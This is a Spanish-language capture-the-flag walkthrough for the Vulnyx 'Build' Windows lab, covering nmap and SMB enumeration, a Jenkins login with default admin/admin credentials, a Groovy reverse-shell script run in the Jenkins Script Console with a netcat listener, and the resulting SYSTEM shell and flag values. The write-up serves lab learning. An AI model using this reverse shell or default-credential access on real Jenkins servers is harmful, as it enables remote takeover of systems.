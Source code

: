 ```yaml
---
icon: flag
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Build Vulnyx (Very Easy- Windows)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-28 03:31 EDT
Nmap scan report for 192.168.5.67
Host is up (0.0060s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
135/tcp   open  msrpc?
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
8080/tcp  open  http          Jetty 12.0.19
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Starting Jenkins
|_http-server-header: Jetty(12.0.19)
49664/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:F4:A6:7F (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BUILD, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:f4:a6:7f (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
|_clock-skew: 8h59m56s
| smb2-time: 
|   date: 2025-07-28T16:33:52
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 166.60 seconds
```

Veremos varias cosas interesantes, entre ellas una pagina en el puerto `80` por defecto del `IIS` y en el puerto `8080` veremos un `jenkins` con autenticacion, pero tambien veremos un `SAMBA` por lo que tendremos bastantes vias en las que podamos enumerar.

Para poder obtener un poco de informacion basica.

```shell
netexec smb <IP>
```

Info:

```
SMB         192.168.5.67    445    BUILD            [*] Windows 10 / Server 2019 Build 19041 x64 (name:BUILD) (domain:BUILD) (signing:False) (SMBv1:False)
```

Veremos que no nos da gran informacion, por lo que vamos a enumerar el `SAMBA` directamente a ver que nos encontramos, pero nos pondra que tendremos el acceso denegado, por lo que vamos a seguir enumerando.

```shell
smbmap --no-banner -H <IP> -u '' -p ''
```

Info:

```
[*] Detected 1 hosts serving SMB                                                   
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                
[*] Closed 1 connections
```

Nos ha detectado un `host` el cual ya sabemos que esta ahi, pero no veremos gran cosa, por lo que vamos a seguir enumerando de otra forma.

Si nos vamos a donde tenemos el `jenkins` y probamos credenciales por defecto a ver si cuela, veremos que si funcionan estas.

```
User: admin
Pass: admin
```

Veremos que estaremos dentro, al ser `Jenkins` podremos probar la parte donde se pueden ejecutar comandos `scripts` a nivel de sistema, a ver si podemos, ya que hemos entrado como `administrador`.

No iremos a `Manage Jenkins` -> `Script Console`, dentro de este veremos un campo de texto en el que pondremos lo siguiente:

```c
Thread.start {
String host="<IP>";
int port=<PORT>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```

Antes de enviar esto nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si volvemos a la pagina, le damos a `Run` y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.67] 56548
Microsoft Windows [Version 10.0.19045.2965]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>whoami
whoami
nt authority\system
```

Vemos que se estaba ejecutando como `administrador` por lo que hemos obtenido una `shell` directamente como `nt authority\system`, con esto habremos terminado la maquina, vamos a leer las `flags` de `usuario` y `root`.

> user.txt

```
17a6390c294493b8fc423154791cdd0b
```

> root.txt

```
927c9a24e72f5d76ffd8bc9c2477d10f
```
